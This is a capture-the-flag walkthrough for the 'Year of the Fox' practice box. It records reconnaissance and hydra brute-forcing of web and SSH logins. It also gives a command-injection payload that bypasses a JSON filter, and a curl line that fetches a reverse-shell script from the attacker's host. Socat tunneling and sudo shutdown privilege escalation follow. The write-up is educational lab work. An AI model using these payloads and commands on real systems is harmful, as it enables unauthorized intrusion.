# Year of the Fox


**Description:** `Don't underestimate the sly old fox...`

**Difficulty:** `Hard`

**OS:** `Linux`

**Category:** `sudo, web, filter, tunneling`

#  Web Flag

Nmap scan:

```shell
# Nmap 7.94SVN scan initiated Thu Apr  4 10:16:16 2024 as: nmap -sCV -A -p- -T4 --min-rate=1000 -O -oN scan 10.10.52.219
Warning: 10.10.52.219 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.52.219
Host is up (0.15s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.29
|_http-title: 401 Unauthorized
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=You want in? Gotta guess the password!
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: YEAROFTHEFOX)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=4/4%OT=80%CT=1%CU=30931%PV=Y%DS=2%DC=T%G=Y%TM=660E7
OS:05E%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=10F%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST
OS:11NW6%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)EC
OS:N(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: Hosts: year-of-the-fox.lan, YEAR-OF-THE-FOX

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: YEAR-OF-THE-FOX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: -20m00s, deviation: 34m38s, median: 0s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: year-of-the-fox
|   NetBIOS computer name: YEAR-OF-THE-FOX\x00
|   Domain name: lan
|   FQDN: year-of-the-fox.lan
|_  System time: 2024-04-04T10:18:17+01:00
| smb2-time: 
|   date: 2024-04-04T09:18:17
|_  start_date: N/A

TRACEROUTE (using port 3306/tcp)
HOP RTT       ADDRESS
1   224.89 ms 10.8.0.1
2   224.96 ms 10.10.52.219

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr  4 10:18:22 2024 -- 1 IP address (1 host up) scanned in 126.01 seconds
```

Syntax:

```shell
sudo nmap -sCV -A -p- -T4 --min-rate=1000 10.10.52.219 -O -oN scan
```

SMB server running on port 445. 

Listing shares with smbclient:

```shell
╰─❯ smbclient -L 10.10.52.219
Password for [WORKGROUP\deusx]:

        Sharename       Type      Comment
        ---------       ----      -------
        yotf            Disk      Fox's Stuff -- keep out!
        IPC$            IPC       IPC Service (year-of-the-fox server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        YEAROFTHEFOX         YEAR-OF-THE-FOX

```

No anonymous access to any share.

Website running on port 80:



Requesting credentials.

Referring back to our nmap scan we have a message:


Testing some default credentials `admin:admin` and capturing the request using burpsuite

Request:



A GET request is sent with a Authorization header. The Authorization Header contains a base64 code and indicates the user of BASIC authentication. 

Decoding the base64 code:


Same credentials entered.

Now we need at least a possible username. We can try enumerating smb using `enum4linux`:



```shell
enum4linux -a 10.10.52.219
```


2 users found, fox and rascal.

We can bruteforce using hydra.


```shell
hydra -l rascal -P /usr/share/wordlists/rockyou.txt IP http-get -V
```

Login:



Searching for the file `fox` returns a fox.txt file


Imputing nothing into the search filed returns all files in the directory


Capturing the request using burpsuite and testing various payloads and researching online on how to bypass JSON filters led to the discovery of this payload:

**Request**


Payload

```
\";Command_Here \n
```

The payload is to be inserted inside of the double quotes:


**Response**



Testing with `ping` and `tcpdump`

**Request**


**Response**


```shell
sudo tcpdump  -i tun0 icmp
```

Using this to gain a reverse shell:

Transferring a reverse shell script using python server:


Payload:

```
\";curl http://10.8.129.243:8000/shell.sh --output /tmp/shell.sh \n
```

Adding executable permissions


Start netcat listener and execute the script


Shell access:


First flag obtained



# User Flag

Contents of `creds2.txt`


Seems like a code. Decoding it Base32 > Base64  gives this code which actually looks like a hash



Might be useful later.

Moving on by running linpeas on the target shows ports running on the target locally


Enabling port forwarding using socat. First transfer a socat binary to the target  then run the command

```shell
socat TCP4-LISTEN:8001,fork TCP4:127.0.0.1:22 &
```


Running an nmap scan again reveals  the SSH port



Bruteforcing SSH using hydra with the user fox:


```shell
hydra -l fox -P /usr/share/wordlists/rockyou.txt ssh://10.10.56.72:8001  -V -t 4
```


Login and obtain user flag:



# Root Flag

Checking sudo privileges, we can run the `/usr/sbin/shutdown` as root with no password


Checking online on how to exploit this leads to this [site](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-shutdown-poweroff-privilege-escalation/)



Running the commands will lead to a root shell


No root flag yet


Checking the home directory of rascal, we get the root flag :



The End.
